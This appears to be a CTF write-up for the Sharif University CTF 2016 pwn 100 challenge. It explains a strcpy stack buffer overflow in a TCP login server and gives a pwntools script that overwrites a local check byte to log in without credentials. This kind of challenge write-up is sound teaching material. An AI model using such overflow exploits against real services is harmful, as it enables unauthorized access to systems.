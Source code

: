 ```yaml
---
layout: post
title:  "Sharif University CTF 2016: Login to system (pwn 100)"
author: f0rki
categories: writeup
tags: [cat/pwn]
---
```


* **Category:** pwn
* **Points:** 100
* **Description:**

> Can you login to this system without username and password?
>
> telnet ctf.sharif.edu 27515
>
> Download Question.zip


## Write-up

The binary we were given was a threaded TCP server. The connection handling
function is at `0x00400de4`. It asks for username and password. The goal is to
login without username/password. The following piece of code checks whether a
a byte on the stack is `0x01` and then executes code that apparently reads the
flag and sends it to us.

```
│           0x00400f91      488d45e0       lea rax, [rbp-local_4]
│           0x00400f95      0fb600         movzx eax, byte [rax]
│           0x00400f98      3c01           cmp al, 1
```

Fortunately right before this check there is a call to strcpy:

```
│           0x00400f78      488d95d0fbff.  lea rdx, [rbp-local_134]
│           0x00400f7f      488d8520fbff.  lea rax, [rbp-local_156]
│           0x00400f86      4889d6         mov rsi, rdx
│           0x00400f89      4889c7         mov rdi, rax
│           0x00400f8c      e80ffcffff     call sym.imp.strcpy
```

So a stack based buffer overflow and overwriting a local variable. This is
easy. With a quick `pwntools` script we are able to get the flag:


```
from pwn import *  # NOQA

context.os = "linux"
context.arch = "amd64"
context.log_level = "debug"

vulnbin = "./Question"
velf = ELF(vulnbin)
vp = remote("ctf.sharif.edu", 27515)

username = "yomama"
password = "\x01" * 1050

x = vp.recvuntil("enter:")
assert "username" in x
vp.sendline(username)
x = vp.recvuntil("enter:")
assert "password" in x
vp.sendline(password)

with context.local(log_level='debug'):
    vp.clean_and_log()

vp.interactive()
```
